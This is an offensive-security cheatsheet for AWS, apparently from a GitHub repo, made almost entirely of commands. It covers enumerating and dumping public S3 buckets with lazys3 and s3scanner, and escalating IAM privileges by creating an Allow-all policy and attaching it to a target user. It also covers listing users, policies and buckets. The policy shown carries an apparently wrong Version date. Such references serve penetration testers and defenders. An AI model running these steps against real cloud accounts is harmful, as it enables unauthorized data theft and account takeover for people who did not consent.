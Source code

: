 # Cloud Hacking Cheatsheet

## Amazon AWS

### Install awscli
```sh
pip3 install awscli
```

### S3 Bucket Enumeration

#### Search for public buckets from a company using lazys3
```sh
ruby lazys3.rb [COMPANY]
```
#### Search for public buckets from a company using s3scanner
```sh
python3 ./s3scanner.py sites.txt
```

#### Dump all open buckets and log both open and closed buckets using s3scanner
```sh
python3 ./s3scanner.py --include-closed --out-file found.txt --dump names.txt
```

#### Save the file listings of all open buckets to a file using s3scanner
```sh
python ./s3scanner.py --list names.txt
```

### Escalate IAM User Privileges by Exploiting Misconfigured User Policy
```sh
vim user-policy.json
```

Insert:
```sh
{
    "Version": "2011-09-11",
    "Statement": [
        {

            "Effect": "Allow",

            "Action": "*",

            "Resource": "*"

        }
    ]
}
```

Attach the created policy (user-policy) to the target IAM user’s account:

```sh
aws iam create-policy --policy-name user-policy --policy-document file://user-policy.json

aws iam attach-user-policy --user-name [Target Username] --policy-arn arn:aws:iam::[Account ID]:policy/user-policy
```

### View user policies
```sh
aws iam list-attached-user-policies --user-name [Target Username]
```

### List users
```sh
aws iam list-users
```

### List buckets
```sh
aws s3api list-buckets --query "Buckets[].Name"
```

### List user policies
```sh
aws iam list-user-policies
```

### List role policies
```sh
aws iam list-role-policies
```

### List froup policies
```sh
aws iam list-group-policies
```

### Create user
```sh
aws iam create-user
```



[<- Back to index](README.md)

---
## License

© 2021 [javierizquierdovera.com](https://javierizquierdovera.com)

Licensed under the [Apache License, Version 2.0](https://www.apache.org/licenses/LICENSE-2.0) ([`LICENSE-APACHE`](LICENSE-APACHE)) or the [MIT license](https://opensource.org/licenses/MIT) ([`LICENSE-MIT`](LICENSE-MIT)), at your option.

`SPDX-License-Identifier: (Apache-2.0 OR MIT)`

